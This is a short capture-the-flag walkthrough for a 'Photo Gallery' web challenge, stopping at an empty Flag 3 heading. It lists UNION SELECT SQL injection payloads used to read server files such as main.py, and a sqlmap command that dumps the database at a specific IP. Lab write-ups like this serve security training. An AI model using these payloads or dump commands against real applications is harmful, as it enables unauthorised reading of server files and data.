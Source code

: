 # Photo Gallery
## Flag 1
* http://35.227.24.107/a46a28d046/fetch?id=1 when selected image
* based on the Hint "Take a few minutes to consider the state of the union"
* A union select could be used however the location was understood after the nxext hint
* "This application runs on the uwsgi-nginx-flask-docker image" from a quick search the file loacation was dtermined.
* uwsgi.ini is the config and main.py is the main file
* Hence id=1.1 UNION SELECT 'uwsgi.ini' -- and id=1.1 UNION SELECT 'main,py' -- was tried 
* main.py had the flag.

## Flag 2
* http://35.227.24.107/a46a28d046/fetch?id=1 used with sqlmap
* sqlmap -u 35.227.24.107/a46a28d046/fetch?id=1 --dump --threads 10
* +----+------------------+--------+------------------------------------------------------------------+
  | id | title            | parent | filename                                                         |
  +----+------------------+--------+------------------------------------------------------------------+
  | 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
  | 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
  | 3  | Invisible        | 1      | Flag 2 |
  +----+------------------+--------+------------------------------------------------------------------+

## Flag 3
* 

